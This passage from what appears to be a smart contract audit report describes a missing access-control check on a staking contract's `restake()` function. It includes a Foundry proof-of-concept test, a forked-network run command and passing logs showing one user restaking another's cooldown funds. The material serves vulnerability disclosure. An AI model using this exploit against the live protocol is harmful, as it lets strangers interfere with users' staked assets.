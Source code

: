 This is a critical function as such there should be limit to who can call it. When users call `unstake()`, the tokens are held in a cooldown state for a given period, then users can just withdraw them. However, this function restake is meant to restake this tokens which means removing them from cooldown. Only priviliged roles should be allowed to do this.

### 5.4. <a name='Likelihood'></a>Likelihood

High likelihood of this happening as the function is not protected in any way, anyone can just call it

### 5.5. <a name='ProofOfConcept-1'></a>Proof Of Concept

First we deposit and unstake as user1, then while the funds are in cooldown, user2 calls `restakes` which now restakes all the funds in cooldown.

```solidity
function test_restake_flow_no_accessControl() public {
    // User1 first submit ETH
    vm.prank(user1);
    minter.submit{value: 5 ether}();
    // User1 Unstake
    vm.startPrank(user1);
    frxETHToken.approve(address(minter), 3 ether);
    minter.unstake(3 ether);
    vm.stopPrank();
    // Confirm amount in cooled state
    PlumeStakingStorage.StakeInfo memory stakeInfo = minter.stakeInfo();
    console.log("In cooldown after user1 unstakes", stakeInfo.cooled);
    // Now user2 decides to call restake
    vm.prank(user2);
    uint256 amountRestaked = minter.restake(1);
    console.log("amount restaked", amountRestaked);
    // Check cooled amount is now 0
    PlumeStakingStorage.StakeInfo memory stakeInfo_ = minter.stakeInfo();
    assertEq(stakeInfo_.cooled, 0);
    console.log("In cooldown after user2 restakes", stakeInfo_.cooled);
}
```

**Run**

```bash
forge test --fork-url https://phoenix-rpc.plumenetwork.xyz/ --match-test test_restake_flow_no_accessControl -vv
```

**logs**

```bash
Ran 1 test for test/fork/stPlumeMinter.t.sol:StPlumeMinterForkTest[PASS] test_restake_flow_no_accessControl() (gas: 866738)Logs:  In cooldown after user1 unstakes 2997826306151267800  amount restaked 2997826306151267800  In cooldown after user2 restakes 0
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 28.26s (23.65s CPU time)
```
